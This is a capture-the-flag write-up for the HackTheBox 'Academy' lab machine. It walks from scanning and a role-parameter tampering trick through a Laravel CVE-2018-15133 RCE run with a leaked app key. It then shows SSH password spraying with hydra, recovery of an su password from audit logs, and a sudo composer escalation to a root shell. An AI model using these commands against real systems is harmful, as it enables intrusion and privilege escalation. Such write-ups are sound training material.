# Academy

`nmap -sV -T4 -p- 10.10.10.215`

```text
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

Navigating to [http://10.10.10.215](http://10.10.10.215) redirects to an unknown host [http://academy.htb/](http://academy.htb/).

Add an entry to the hosts file at `/etc/hosts`, to resolve the `academy.htb` domain to 10.10.10.215.



Now it works and we can see the website properly.

`gobuster dir -u http://academy.htb/ -w /usr/share/dirb/wordlists/common.txt`



There was a registration page and a login page, so I went ahead and registered with credentials test:test.



**Always look at what you are POST-ing!**

When registering, there is a `roleid` parameter.


So, let's try to create _another_ account, changing the roleid from 0 to 1.



This gives us admin privileges. From the previously found `/admin.php`, we can login:



Crucial information! Let's add `dev-staging-01.academy.htb` to our `/etc/hosts` file.



The site:



The site uses Laravel. API key: `dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=`



There is a MySQL username and password combination. However, trying to authenticate remotely into the MySQL server failed.

Googling will tell us several CVEs associated with Laravel.

Found this neat tool for exploiting CVE-2018-15133: [https://github.com/aljavier/exploit\_laravel\_cve-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133)

CVE-2018-15133 is an RCE vulnerability that requires us to know the APP\_NAME \(API token\). From the information above, we have found the APP\_NAME!

Run the exploit:

`python3 pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive`

Note that we should be using `dev-staging-01.academy.htb` as the target URI because the Laravel is running on this domain.



Get some basic information:



## Privilege Escalation

The `.env` file stores the environment variables.





Find the regular users \(those with `/home/<username>`\):



We want to enumerate these users to check if any of them used the same password for their user account as the mysql account \(password spraying attack\)



`hydra -L users.txt -p mySup3rP4s5w0rd\!\! -v ssh://10.10.10.215`

* Note that `!!` is a feature in Bash which re-executes the previous command.
* This is why the `!!` needs to be escaped, i.e. `\!\!`



`ssh 10.10.10.215 -l cry0l1t3` and use the `mySup3rP4s5w0rd!!` password.



**User Flag:**



Upgrade to tty shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`



A handy thing to check for is user groups. I don't have sufficient privileges, but maybe someone else does? So, egre55 is in the same group `adm` as us, but he is also in other groups such as `sudo`.


I tried `grep` to find credentials for egree55 to no avail.

### /var/log/audit

The audit logs contain a field

`comm="<command name>"`

The comm field records the command-line name of the command that was used to invoke the analyzed process. In this case, the cat command was used to trigger this Audit event.

So we can look for `comm="su"` in the audit logs.

`grep -r 'comm="su"' /var/log/audit`



The `data` field is the supplied user input, in _hexadecimal_. We need to convert to ASCII.



Now we can login as mrb3n.

```text
ssh 10.10.10.215 -l mrb3n
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### sudo -l

`sudo -l` shows us which commands that we are allowed to run as `sudo`, i.e. `root`. Sudo allows users to run _some_ commands as root. Using `sudo -l` we can find out which commands these are.



### GTFO

Great resource to find info on binaries that can be used to elevate privileges! These are all _legitimate_ functions of binaries that can be exploited _given there are misconfigurations_.

[https://gtfobins.github.io/](https://gtfobins.github.io/)

Here we can find info on what we can do when we have `sudo`:



So just run the commands given!

```bash
mrb3n@academy:~$ TF=$(mktemp -d)
mrb3n@academy:~$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:~$ sudo composer --working-dir=$TF run-script x
```

We should get a root shell! There's an `academy.txt` easter egg as well.



